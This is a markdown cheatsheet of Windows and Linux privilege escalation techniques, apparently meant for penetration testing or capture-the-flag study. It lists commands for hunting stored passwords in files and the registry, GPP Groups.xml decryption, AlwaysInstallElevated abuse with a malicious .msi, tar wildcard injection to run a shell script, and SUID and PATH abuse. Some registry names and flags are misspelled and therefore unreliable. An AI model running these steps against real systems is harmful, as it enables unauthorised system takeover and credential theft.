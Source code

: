 # Privilege Escalation cheatsheet

## Windows

### Automation scripts
[WinPeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)

### Kernel 
```
systeminfo -> look up missing kb's
systeminfo | findstr /B /C:"OS Name" /C:"OS * Version"`
sherlock -> Find-AllVulns powershell
```
#### Config files 

#### Group policy 
Only applicable for devices connected to a domain
```
Groups.xml`stored in SYSVOL -> DC
  encrypted with AES, but key got leaked
 \\dc2018.lab\SYSVOL\dc2008.lab\Policies\{id}\MACHINE\Preferences\Groups`
```

#### other files 
```
Services\Services.xml
ScheduldedTasks\ScheduledTasks.xml
Printers\Printers.xml
Drives\Drives.xml
DataSources\DataSources.xml
```
#### Other Misc Passwords 
```
dir /s *pass* == *cred* == *vnc* == *.config*
 findstr /si password *.xml *.ini *.txt
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
web.config
php.ini
httpd.conf
access.log
```

##### Always Install Elvated:
```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstalledElevated 
reg query HKCU\SOFTWARE\Policies\Micorosft\Windows\Installer\AlwaysInstalledElevated
both values = 1, created a malicious .msi file with msfvenom for example
execute it with msiexec /quiet /qn /i <filename>
```
### Unquoted Services Paths (trusted service paths)
each space in a file path, windows will attempt to look for and execute programs with a name that matches the word in front of the space
<br> Example: <br>
* C:\Program Files\Some Folder\Service.exe
* C:\Program.exe
* C:\Program Files\Some.exe
* C:\Program Files\Some Folder\Service.exe
```
Command to look for such service: wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """
```
### Insecure Service Permissions
Check write access to a service as authenticated user
```
Commands: 
1. whoami 
2. net user <username>
3. accesschk.exe` -> part of sysinternals
4. accesschk.exe -ucqv <service>
5. accesschk.exe -uwcqv "Authenticated Users" * /accepteula
```

### DLL Hijacking
Requires user interaction / reboot.
<br> Search order: 
```
1. The directory from which the application is loaded
2. 32-bit System directory (C:\Windows\System32)
3. 16-bit System directory (C:\Windows\System)
4. Windows directory (C:\Windows)
5. The current working directory
6. Directories in the PATH environment variable
```
## Linux 

### Automation scripts 
[linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)
[linenum.sh](https://github.com/rebootuser/LinEnum)
### Kernel Exploit 
```
Command to look for system kernel version: uname -a
tools used: searchsploit
```
### Services running as root 
any shell escape sequences?
```
Command: ps -aux | grep root 
```
### SUID executables 
runs with permissions of the owner
```
command: find / -perm -u=s -type f 2>/dev/null
```
### Sudo rights 
what can we execute -> any shell escape sequences

### Wildcard 
* often combined with user interaction / cronjobs
* wild cards can be utilized to inject arbitrary command by creating files that are seen as commands
Example: 
```
--checkpoint=<number> and --checkpoint-action=<command>
--checkpoint=1 and --checkpoint-actionexec=sh rshell.sh
```
### PATH abuse 
Requires user interaction

```
* `$PATH:.:${PATH}`
* `export $PATH`
* `echo $PATH`
* replace executable files with a malicious one
```

# References
https://0xsp.com/offensive/privilege-escalation-cheatsheet
https://www.fuzzysecurity.com/tutorials/16.html
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
https://github.com/rebootuser/LinEnum

